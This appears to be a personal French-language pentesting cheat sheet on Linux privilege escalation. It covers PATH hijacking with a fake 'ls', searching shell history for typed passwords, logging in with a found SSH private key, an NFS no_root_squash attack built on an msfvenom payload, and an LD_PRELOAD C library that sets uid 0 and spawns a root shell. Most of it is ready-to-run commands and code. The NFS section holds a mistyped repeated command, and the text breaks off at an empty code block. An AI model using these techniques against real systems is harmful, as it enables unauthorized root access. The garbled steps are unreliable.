 ***exemple : ***
```bash
echo "/bin/bash" > ls
chmod +x filename	-> x rend le fichier executable
export PATH=/tmp:$PATH -> on met /tmp dans le PATH
```

et on réexecute le file

### MOT DE PASSE ACCIDENTELLEMENT TAPÉ :
si un user à accidentellement tapé un mot de passe dans une vraie ligne :
c'est rangé dans history ou :
```bash
cat ~/.*history | less
```

### CONFIG FILES : (.ovpn par exemple)
Ils ne contiennent pas le mot de passe mais peuvent contenir l'emplacement des fichiers qui les contiennent

### SSH PRIVATE KEY :
Suppose that you found the id_rsa file of a remote user
- copy it in the local machine
```bash
chmod 600 id_rsa
ssh -i id_rsa username@ipaddress
```

### NFS root_squashing
```bash
cat /etc/exports -> ici on avait trouvé no_root_squash
```
sur notre machine :
on doit run en tant que root donc : 
```bash
sudo su
mkdir /tmp/nfs
mount -o rw,vers=2 <targetIP>:/tmp /tmp/nfs
```
on crée un payload qui pop un simple bash
```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +x /tmp/nfs/shell.elf
```
Sur la target :
```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf4
```

### LD_PRELOAD : 
1. Open a text editor and type:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
2. Save the file as x.c
3. In command prompt type:
```bash
```